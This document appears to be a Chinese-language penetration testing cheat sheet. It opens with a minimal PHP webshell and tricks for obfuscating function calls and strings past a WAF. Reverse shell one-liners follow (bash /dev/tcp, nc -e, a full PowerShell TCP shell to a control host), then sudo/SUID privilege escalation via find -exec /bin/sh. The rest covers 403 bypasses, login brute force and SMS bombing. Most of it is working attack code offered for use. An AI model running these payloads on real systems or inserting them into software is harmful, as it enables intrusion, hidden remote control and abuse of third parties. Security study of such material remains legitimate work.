最基础的webshell：`eval($_POST['cmd']);`。混淆时要隐藏危险关键字（如`eval`），还要隐藏调用关系。前者可以用各种字符串魔术

混淆时，首先要隐藏调用关系——调用的不是`eval`等危险函数，而是一个看似无害的`callable`对象。以下方法都可以用字符串调用函数（注意，`eval`是语言结构而非函数，不能作为函数调用）

```php
'system'('cat /flag');  # 可变函数
call_user_func('system', 'ls');
array_map('system', ['ls']);
preg_replace('/.*/e', 'system', 'ls');           # PHP 8要用preg_replace_callback
$f = create_function('$a', 'return eval($a);');  # PHP 8以下

# 类似效果的函数：
# ob_start, unserialize, usort, uasort, uksort
# array_filter, array_reduce, array_diff_uassoc, array_diff_ukey, array_udiff, array_uintersect
```

然后还要做字符串混淆——避免WAF检测到危险函数名、危险代码

```php
echo 'creat' . 'e_fu' . 'nction';     # 拼接
echo str_replace("z", "", "sysztem"); # 替换
echo base64_decode("W10=");  # 编码、加密解密。类似有str_rot13
echo ~('和'[2]);      # 字节运算
$x = 'a'; $x++;       # 另一种字节运算
$g = $_GET['xymhwv']; # 动态传入参数
$a = gettype([])[0];  # gettype([]) = 'array'，因此给$x赋值为'a'

parse_str('a=1');     # 作为URL参数解析。PHP 8以前会直接赋值
```

## 反弹Shell

控制端监听某个端口，被控端发起连接。连接方向和普通Shell相反，因此称作反弹Shell（Reverse Shell）。如果被控端位于内网，或者防火墙入站规则阻止外部连接，就可以使用反弹Shell

```bash
bash -i >& /dev/tcp/ip/port 0>&1  # 简单方便。需要bash和dev权限
nc -e /bin/bash ip port           # 需要目标安装了nc
```

Powershell

```powershell
$client = New-Object System.Net.Sockets.TCPClient($control_ip, $control_port);
$stream = $client.GetStream();
[byte[]]$bytes = 0..65535|%{0};
while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){
    $data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);
    $sendback = (iex ". { $data } 2>&1" | Out-String );
    $sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';
    $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);
    $stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()
};
$client.Close()
```

## 提权

[GTFOBins](https://gtfobins.github.io/)收录了许多用Linux指令绕过操作系统安全策略的方法

sudo和SUID都能让用户暂时以更高权限进行操作。使用sudo命令时、运行具有SUID的命令时，可以暂时获得其他用户权限。若系统配置不当，利用sudo与SUID可以暂时获取root用户权限，则可能用于提权

```bash
# 查看可以sudo的命令
sudo -l

# 查找SUID=1、所有者是root的文件
find / -perm -u=s -user root -type f 2>/dev/null
```

sudo、SUID提权有几类方法：

- 执行任意命令获取Shell。如：`find`，`vim`
- 覆盖文件
- 读取`/etc/shadow`并爆破密码，如`cp`，`wget`

```bash
find /etc/passwd -exec whoami \;  # 每找到一个结果，就会执行一次-exec参数指定的命令
find /etc/passwd -exec /bin/sh \;
```

# 渗透思路

## 空白页

常见于通过扫描器、测绘工具等发现的IP / 域名，访问时返回空白页面、403、404、服务器默认页等。此类页面测试价值低于能看到系统的页面

**目录扫描**、**路径拼接**

- **原因**：站点首页空白往往是因为没有访问正确的路径，比如可能要访问`/portal/*`才能进入系统，也可能这个站点只部署了系统的一部分，需要通过`/winfo-api/cctv/getCCTVList`这样的API访问
- **特征识别**：绝大部分空白页都属于此类
- **注意**：正确路径可能扫不出来，要从其他地方搜集。此外，一个服务器很可能部署多个系统。即使有可见系统，目录扫描、路径拼接也时常有发现

**403 Bypass**

- **原因**：服务器可能禁止远程访问某些资源，比如`/admin`目录被配置为仅限本地访问，从互联网访问就会返回403
- **绕过方法**：参考[基于渗透测试中绕过403禁止访问的分享](https://mp.weixin.qq.com/s/GW24_LhKNB89XjxZvQffQw)
  - 可能仅对`GET, POST`方法进行了配置。将HTTP方法改成`PUT, DELETE, TRACE, PATCH`等有可能绕过
  - 请求头操作。服务器可能通过请求头进行验证，添加`X-Forwarded-For, Referer`等请求头，让服务器误以为以合法方式请求
  - 篡改路径。权限验证中间件的路径匹配可能有误，如`/admin.php`不可访问，`/admin.php%00.json`可以访问
  - 篡改参数。如`/admin?debug=1`，也可能通过重复参数“覆盖”，如`/profile?admin=0&admin=1`

**改Host头**

- **原因**：nginx等反向代理服务器根据Host头判断应该请求该转发给哪个后端服务器。可能在访问IP地址时，反向代理服务器直接返回错误页、空白页；携带正确Host头访问时，反向代理服务器才会将请求转发给真正的服务器，返回真正的页面
- **特征识别**
  - 特征响应头：如反向代理特征`Server: nginx`、`X-Proxy`；源服务器特征`Server: Tomcat`、`Set-Cookie: JSESSIONID`
  - 页面样式：反向代理404页面一般为极简文本页面；源服务器404页面一般有更多信息
  - 更改请求方法：使用`OPTIONS`方法请求，代理通常只支持`GET`和`POST`，源服务器则还会支持`PUT`，`DELETE`等方法
  - 请求代理未配置路径、非法路径：如`/abc/1334/`、`/%00`、`/..;/`等，若响应和之前区别较大则可能是访问到源服务器了
  - 响应时间：代理拦截的响应时间抖动一般在毫秒级，容器处理则抖动较明显
- **注意**：反向代理很可能配置为访问到正确路径才转发给源服务器。若无其他佐证，不宜在此方法上花费太多时间

## 无账号的系统

对于不知道账号密码，也不能注册的系统，可以通过分析前端代码进行渗透（可登录进去的系统也要做这一步；此类系统直接操作的效率更高，）

js信息泄露：硬编码口令、路径（拼接一下可能有惊喜，可能看到系统，或者拼接再扫目录可能有新发现。也可能是相关系统的路径，可以尝试在其他IP/域名拼接）、js.map泄露

api fuzz  - 可能有高权限接口前端不展示，通过fuzz可以试出来。比如普通用户可以用`/user/profile`看自己的信息，管理员可以用`/user/get`，`/user/list`等查别人信息

## 登录页

**登录口**

- 爆破
- 用户名枚举
- 登录口SQL注入

**短信验证**

- 短信轰炸：反复请求发送验证码（注意，验证码接口一般有次数限制，比如阿里云的接口是一天30条，若次数较少则危害有限）
- 验证码爆破：若短信验证码不限制尝试次数，则可以尝试爆破
- 万能验证码：开发阶段可能设置0000、666666之类的万能验证码

**密码重置**

**前端校验**：将登录的返回包改成成功，跳转到登录后页面。单页应用比较有可能出现此漏洞

## 各类漏洞

### 越权

- 更改参数值
- 删除参数
- 改低权限Cookie
- 构造高权限数据包

### XSS

- 闭合`textarea`标签
